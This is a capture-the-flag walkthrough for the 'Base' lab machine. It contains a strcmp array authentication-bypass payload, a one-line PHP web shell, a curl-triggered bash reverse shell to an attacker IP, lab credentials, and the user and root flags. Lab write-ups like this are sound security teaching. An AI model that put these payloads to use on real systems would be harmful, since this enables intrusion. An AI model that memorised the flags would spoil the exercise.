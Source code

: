 ### Base

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>
**Tags:** Vulnerability Assessment, Custom Applications, Source Code Analysis, Authentication, Apache, PHP, Reconnaissance, Web Site Structure Discovery, SUDO Exploitation, Authentication bypass, Clear Text Credentials, Arbitrary File Upload, Information Disclosure<br>

---

#### Task 1
**Which two TCP ports are open on the remote host?**
> 22,80

![Nmap](nmap.png)

#### Task 2
**What is the relative path on the webserver for the login page?**
> /login/login.php

We visit the website and click the Login button. We are redirected to the `/login/login.php` page.

#### Task 3
**How many files are present in the '/login' directory?**
> 3

We go to `/login` and see 3 files: `login.php`, `config.php`, and `login.php.swp`.

![Files in /login Directory](burp.png)

#### Task 4
**What is the file extension of a swap file?**
> .swp

#### Task 5
**Which PHP function is being used in the backend code to compare the user submitted username and password to the valid username and password**
> strcmp()

We use the `cat` command look at the contents of the `login.php.swp` file:

```php
// login.php.swp
if (strcmp($password, $_POST['password']) == 0) 
if (strcmp($username, $_POST['username']) == 0)
```

#### Task 6
*In which directory are the uploaded files stored?*
> /_uploaded

We use Burp Suite to log into the website. We try to login to the website and intercept the HTTP POST Request. We add `[]` to the end of the `username` and `password` variable names to change them from a String into an Array.

```
username[]=user&password[]=pass
```

The `strcmp()` function was expecting the username and password to be a String instead of array, so it returns `null`. Since `null` evaluates to `0`, we successfully login to the website.

We are met with a page to upload files. We upload a file called `test.txt` and then use Gobuster to find the directories with `.txt` files. We find that the uploaded files are in the `/_uploaded` directory:

![Gobuster](gobuster.png)

#### Task 7
*Which user exists on the remote host with a home directory?*
> john

We upload a PHP shell to the website:

```php
// shell.php
<?php echo shell_exec($_GET['cmd']); ?>
```

Next we start a Netcat listener on port `12345` of our  computer. Then we use curl to start a reverse bash shell:

```bash
curl http://10.129.27.143/_uploaded/shell.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.15.75%2F12345%200%3E%261%27
```

#### Task 8
*What is the password for the user present on the system?*
> thisisagoodpassword

The credentials are hardcoded into the `config.php` file:

```
$username = "admin";
$password = "thisisagoodpassword";
```

#### Task 9
*What is the full path to the command that the user john can run as user root on the remote host?*
> /usr/bin/find

We login as john:

[Shell](shell.png)


#### Task 9
*What action can the find command use to execute commands?*
> exec


---

#### User Flag
> f54846c258f3b4612f78a819573d158e

#### Root Flag
> 51709519ea18ab37dd6fc58096bea949

Once we login as john, we can use the `find` command with `exec` to get a bash shell:

[Root](root.png)


---

